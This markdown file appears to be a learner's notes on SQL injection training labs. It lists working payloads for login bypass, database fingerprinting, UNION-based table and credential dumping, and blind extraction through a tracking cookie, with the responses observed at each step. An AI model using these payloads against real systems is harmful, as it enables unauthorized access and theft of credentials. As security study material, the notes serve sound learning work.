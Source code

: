 # SQL Injection

## SQL injection vulnerability in WHERE clause allowing retrieval of hidden data

```
'  // <- Error
' OR 1=1--
```

## SQL injection vulnerability allowing login bypass

In login form:
```
administrator'--
```

## SQL injection attack, querying the database type and version on Oracle

```
'  // <- Error
' ORDER BY 1--
' ORDER BY 2--
' ORDER BY 3--  // <- Error

' UNION SELECT 'a','b' FROM dual--

' UNION SELECT BANNER, NULL FROM v$version--
```

## SQL injection attack, querying the database type and version on MySQL and Microsoft

```
'  // <- Error
' ORDER BY 1#
' ORDER BY 2#
' ORDER BY 3#  // <- Error

' UNION SELECT @@version, NULL#
```

## SQL injection attack, listing the database contents on non-Oracle databases

```
'  // <- Error
' ORDER BY 1--
' ORDER BY 2--
' ORDER BY 3--  // <- Error

' UNION SELECT NULL,NULL--
' UNION SELECT 'a','b'--

' UNION SELECT table_name, NULL FROM information_schema.tables--
' UNION SELECT column_name, NULL FROM information_schema.columns WHERE table_name='users_abcdef'--

' UNION SELECT CONCAT_WS('~',username_abcdef,password_abcdef),NULL FROM users_abcdef--
```

## SQL injection attack, listing the database contents on Oracle

```
'  // <- Error
'--

' AND 1=1--
' AND 1=2--  // <- No records

' ORDER BY 1--
' ORDER BY 2--
' ORDER BY 3--  // <- Error

' union select NULL,NULL from dual--

' union select table_name,NULL from all_tables--  // USERS_JBQHPM
' union select column_name,NULL from all_tab_columns where table_name='USERS_JBQHPM'--
' union select USERNAME_KUTLFE,PASSWORD_XXNVYJ from USERS_JBQHPM--
```

## SQL injection UNION attack, determining the number of columns returned by the query

```
'  // <- Error
'--

' ORDER BY 1--
' ORDER BY 2--
' ORDER BY 3--
' ORDER BY 4--  // <- Error

' union select NULL,NULL,NULL--
```

## SQL injection UNION attack, finding a column containing text

```
'  // <- Error
'--

' ORDER BY 3--
' ORDER BY 4--  // <- Error

' union select NULL,NULL,NULL--
' union select 'a',NULL,NULL-- // <- Error
' union select NULL,'a',NULL--
```

## SQL injection UNION attack, retrieving data from other tables

```
'  // <- Error
'--

' ORDER BY 1--
' ORDER BY 2--
' ORDER BY 3--  // <- Error

' union select username,password from users--
```

## SQL injection UNION attack, retrieving multiple values in a single column

```
'  // <- Error
'--

' ORDER BY 1--
' ORDER BY 2--
' ORDER BY 3--  // <- Error

' union select NULL,NULL--
' union select 'a',NULL--  // <- Error
' union select NULL,'a'--

' union select NULL,@@version--  // <- Error
' union select NULL,version()--  // => PostgreSQL

' union select NULL,username||'~'||password from users--
```

## Blind SQL injection with conditional responses

```
'
'-- -
'#
' AND 'a'='a
' AND 'a'='b
```

No Vuln here.

In TrackingId cookie:
```
'  // No "Welcome back!" on the page
'--  // "Welcome back!" is back

' AND 1=2--  // No "Welcome back!" on the page
' AND 1=1--  // "Welcome back!" is back

' AND 'a'=SUBSTRING('administrator',1,1)--  // "Welcome back!" is present
' AND 'b'=SUBSTRING('administrator',1,1)--  // No "Welcome back!" on the page

' AND 'a'=SUBSTRING((SELECT username from users where username='administrator'),1,1)--  // "Welcome back!" is present
' AND 'b'=SUBSTRING((SELECT username from users where username='administrator'),1,1)--  // No "Welcome back!" on the page
```

Run script:
```
python3.9 blind-conditional-script-1.py
```

## Blind SQL injection with conditional errors

Same proccess as above. But this time TrackingId cookie behaves a bit differently:

```
'  // 500 response
'--  // 200 response

' union select NULL from dual--  // 200 response
' union select NULL,NULL from dual--  // 500 response

' union SELECT CASE WHEN (1=1) THEN TO_CHAR(1/0) ELSE NULL END FROM dual--  // 500 response
' union SELECT CASE WHEN (1=2) THEN TO_CHAR(1/0) ELSE NULL END FROM dual--  // 200 response

' union SELECT CASE WHEN ('a'=SUBSTR((SELECT username from users where username='administrator'),1,1)) THEN TO_CHAR(1/0) ELSE NULL END FROM dual--  // 500 response
' union SELECT CASE WHEN ('b'=SUBSTR((SELECT username from users where username='administrator'),1,1)) THEN TO_CHAR(1/0) ELSE NULL END FROM dual--  // 200 response
```

Run script:
```
python3.9 blind-conditional-script-2.py
```
